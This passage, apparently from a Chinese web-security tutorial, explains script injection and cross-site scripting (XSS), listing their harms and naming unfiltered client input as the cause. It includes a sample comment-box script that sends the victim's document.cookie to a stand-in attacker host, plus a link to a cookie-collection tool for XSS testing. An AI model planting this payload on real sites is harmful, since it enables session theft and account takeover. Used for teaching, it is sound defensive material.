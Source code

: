 但是注入的方式就有很多了，

1. 直接获取了服务器的权限，修改了网页；
2. 利用Sql注入技术注入了脚本；
3. 利用网页交互漏洞注入的脚本；
4. 开发出了脚本注入漏洞扫描和Sql漏洞注入扫描自动机扫描互联网上的网站漏洞。

利用脚本注入这样的方式，黑客可以做很多很多事情：
**挂马，修改页面内容，将客户跳转到指定的网站，流量导入，信息收集等。**

当某天你的网站跳转到成人、赌博网站可能遭受到脚本注入攻击。

## 3.XSS(cross site scripting)跨站脚本攻击

### 什么是XSS

XSS是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。



严格来说XSS应该属于脚本注入的一种方式，只是因为XSS这种方式可以快速轻易的注入脚本而使得它非常流行。举个简单的例子：
有一个网站支持评论和回复，有人在评论框内输入了这么一段脚本：

```
<script>
    var i = document.createElement(‘img’);
    i.setAttribute(‘src’, ‘http://attach.com/x.js?c=’+document.cookie);
    document.body.appendChild(i);
</script>
```
提交后，当别人打开这个页面查看这个评论的时候，攻击的网站就获取到了这个人所有cookie信息(包括session id)，然后在通过脚本加载cookie后进行所有被攻击者所具有权限的操作。

xss个人攻击测试cookie管理平台 : https://github.com/keyus/xss

### XSS攻击的危害包括

1、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号

2、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

3、盗窃企业重要的具有商业价值的资料

4、非法转账

5、强制发送电子邮件

6、网站挂马

7、控制受害者机器向其它网站发起攻击



### 原因解析

主要原因：过于信任客户端提交的数据！

解决办法：不信任任何客户端提交的数据，只要是客户端提交的数据就应该先进行相应的过滤处理然后方可进行下一步的操作。

